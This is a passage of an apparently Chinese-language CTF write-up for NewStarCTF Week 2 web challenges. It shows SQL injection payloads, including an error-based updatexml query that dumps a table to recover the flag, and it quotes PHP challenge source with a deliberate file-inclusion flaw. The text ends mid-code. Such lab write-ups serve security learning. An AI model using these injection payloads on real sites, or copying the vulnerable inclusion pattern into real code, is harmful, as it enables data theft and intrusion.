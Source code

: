 ```yaml
---
title: NewStarCTF WEEK2 WEB
date: 2022-10-10 23:11:51
excerpt: NewStarCTF WEEK2 WEB
categories: 复现
---
```




# NewStarCTF WEEK2 WEB

## 1.Word-For-You(2 Gen)


首先我们来试一下万能密码



```sql
1' or 1=1#
```

![图片-1665405773483](https://cdn.jsdelivr.net/gh/R3damancy1/blog-pic/202404161701146.png)

发现没有什么用，我们尝试一下报错注入

![图片-1665405782381](https://cdn.jsdelivr.net/gh/R3damancy1/blog-pic/202404161701158.png)

这里爆出了库名~wfy，说明我们可以利用报错注入，接着我们爆列表

这里一共爆了三个列表

```sql
XPATH syntax error: '~wfy_admin,wfy_comments,wfy_info'    
```

这里我们都试了一遍，发现flag在wfy_comments里面，我们查一下里面

```sql
1’||updatexml(1,concat(0x7e,(select reverse(group_concat(text)) from wfy_comments)),1)#
```

```sql
XPATH syntax error: '~}sr0rre_emos_ek2m_t4uJ{galf,难'    //得到逆序flag
```



## 2.IncludeOne

题目源代码：

```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
include("seed.php");
//mt_srand(*********);//设置随机数种子
echo "Hint: ".mt_rand()."<br>";//已知第一个随机数种子为：1219893521
if(isset($_POST['guess']) && md5($_POST['guess']) === md5(mt_rand())){//md5强类型
    if(!preg_match("/base|\.\./i",$_GET['file']) &&//过滤base preg_match("/NewStar/i",$_GET['file']) && isset($_GET['file'])){
       //要求存在NewStar字符串，并且有file参数
        //flag in `flag.php`
        include($_GET['file']);//文件包含漏洞
    }else{
        echo "Baby Hacker?";
    }
}else{
```